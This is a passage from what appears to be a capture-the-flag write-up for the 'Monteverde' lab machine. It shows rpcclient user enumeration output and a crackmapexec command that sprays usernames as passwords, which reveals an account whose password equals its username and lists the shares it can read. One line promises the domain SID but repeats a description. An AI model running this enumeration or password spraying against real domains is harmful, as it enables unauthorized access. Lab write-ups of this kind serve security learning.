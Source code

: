 
#### RPC User Info

	rpcclient $> queryuser smorgan
		   User Name   :   smorgan
		   Full Name   :   Sally Morgan
		   Home Drive  :   \\monteverde\users$\smorgan
		   Dir Drive   :   H:
		   Profile Path:
		   Logon Script:
		   Description :
		   Workstations:
		   Comment     :
		   Remote Dial :
		   Logon Time               :      Wed, 31 Dec 1969 17:00:00 MST
		   Logoff Time              :      Wed, 31 Dec 1969 17:00:00 MST
		   Kickoff Time             :      Wed, 13 Sep 30828 21:48:05 CDT
		   Password last set Time   :      Fri, 03 Jan 2020 07:09:22 CST
		   Password can change Time :      Sat, 04 Jan 2020 07:09:22 CST
		   Password must change Time:      Wed, 13 Sep 30828 21:48:05 CDT
		   unknown_2[0..31]...
		   user_rid :      0xa37
		   group_rid:      0x201
		   acb_info :      0x00000210
		   fields_present: 0x00ffffff
		   logon_divs:     168
		   bad_password_count:     0x00000000
		   logon_count:    0x00000000
		   padding1[0..7]...
		   logon_hrs[0..21]...

- We get a Description for the AAD_ user

Description :   Service account for the Synchronization Service with installation identifier 05c97990-7587-4a3d-b312-309adfc172d9 running on computer MONTEVERDE. 


- We also get the domain megabank SID.

Description :   Service account for the Synchronization Service with installation identifier 05c97990-7587-4a3d-b312-309adfc172d9 running on computer MONTEVERDE.


#### SMB enumeration

Running crackmap exec we can see that the user SABatchJobs has the same username and password and we are able to list the available shares. From the output it looks like we have read access to the following shares:

1. azure_uploads
2. IPC$
3. NETLOGON$
4. SYSVOL
5. users$

	$ crackmapexec smb -u users.txt -p users.txt --shares
